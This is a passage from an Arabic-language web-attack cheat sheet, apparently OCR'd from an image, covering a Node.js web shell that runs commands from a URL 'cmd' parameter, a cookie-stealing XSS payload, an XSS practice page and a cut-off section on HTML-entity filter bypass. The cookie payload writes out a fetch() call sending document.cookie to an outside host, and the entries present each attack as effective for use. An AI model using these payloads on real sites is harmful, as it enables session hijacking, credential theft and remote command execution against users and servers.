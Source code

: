 **لماذا يعمل؟**
- يُنشئ خادم HTTP على المنفذ 5855.
- ينفذ أوامر Node.js من معلمة `cmd` في URL.
- يمكن تنفيذ أوامر مثل تشغيل برامج (مثل الآلة الحاسبة).

**الخلاصة:**
ويب شيل Node.js باستخدام الكود أعلاه فعال لأنه يُنشئ خادمًا ينفذ أوامر Node.js عبر طلبات HTTP.

---

## 2. سرقة الكوكيز (Cookie Stealing)
{ #XSS_exploit  }
**الشرح البسيط:**
يُستخدم لسرقة كوكيز المستخدم من الموقع الهدف. لا يعمل مع الكوكيز المحمية بـ `httpOnly`. يُرمز `+` إلى `%2B` في URLs.

**الكود:**
```
fetch('http://example.com/?c='+document.cookie)
```

**لماذا يعمل؟**
- `fetch` يُرسل الكوكيز إلى نطاق خارجي.
- `document.cookie` يجمع الكوكيز غير المحمية.
- يتجاوز المرشحات إذا لم تُحظر طلبات `fetch`.

**الخلاصة:**
سرقة الكوكيز باستخدام الكود أعلاه فعال لأنه يُرسل الكوكيز غير المحمية إلى خادم المهاجم.

---

## 3. صفحة اختبار XSS عبر الإنترنت (XSS Online Test Page)
{ #XSS_other_idea }
**الشرح البسيط:**
يُستخدم لممارسة ناقلات وحمولات XSS. تحتوي على نقاط حقن في كود المصدر.

**الرابط:**
```
https://example.com/xss.php
```

**لماذا يعمل؟**
- توفر بيئة آمنة لاختبار XSS.
- يمكن فحص الكود المصدري لتحديد نقاط الحقن.
- مفيد للتعلم والتجربة.

**الخلاصة:**
صفحة الاختبار `https://example.com/xss.php` فعالة لأنها توفر بيئة لتجربة ناقلات XSS.

---

## 4. جدول كيانات HTML (HTML Entities Table)
{ #XSS_ecoded_payload }
**الشرح البسيط:**
يُستخدم لترميز أحرف HTML لتجاوز المرشحات.
